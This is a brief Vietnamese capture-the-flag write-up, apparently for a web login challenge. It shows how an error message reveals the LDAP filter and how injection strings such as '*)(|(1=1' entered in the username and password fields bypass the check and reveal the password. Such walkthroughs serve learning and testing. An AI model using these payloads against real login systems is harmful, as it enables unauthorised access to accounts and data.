 Đọc doc về LDAP, mình hiểu đại khái nó là 1 filter cho database. Thử nhập vào ô username 1 kí tự đặc biệt trong LDAP như `)` để xem output:

> ERROR : Invalid LDAP syntax : (&(uid=a))(userPassword=))

Vậy câu query của nó như sau:

`(&(uid= [username])(userPassword=[password]))`

Thủ thuật inject vào LDAP cũng giống như inject vào sql: làm sao để câu điều kiện luôn đúng, chỉ cần chú ý cú pháp là được. Thử với input như sau:

`username: admin)(|(1=1`

`password: 123)`

Ý tưởng là biến câu query thành:

`(&(uid= admin)(|(1=1)(userPassword=123)))`

Nhưng vẫn không đúng, vậy khả năng username không nhất thiết phải là admin. Ta cho username và password là bất chuỗi kí tự nào:

`username: *)(|(1=1`

`password: *)`

và sẽ lấy được password